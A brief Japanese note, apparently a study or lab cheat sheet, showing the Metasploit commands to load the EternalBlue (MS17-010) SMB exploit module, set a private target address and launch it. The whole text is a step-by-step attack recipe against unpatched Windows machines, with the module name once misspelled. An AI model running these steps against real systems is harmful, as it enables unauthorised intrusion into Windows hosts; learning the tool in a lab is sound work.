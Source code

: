 # metasploit

起動
```bash
msfconsole
```

payloadの選択
```
use exploit/windows/smb/ms17_010_externalblue
```

moduleの利用状況確認
```
Show options
```

Setで値を設定する
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.20.71
RHOSTS => 10.10.20.71
```

実行する
```
exploit -z
```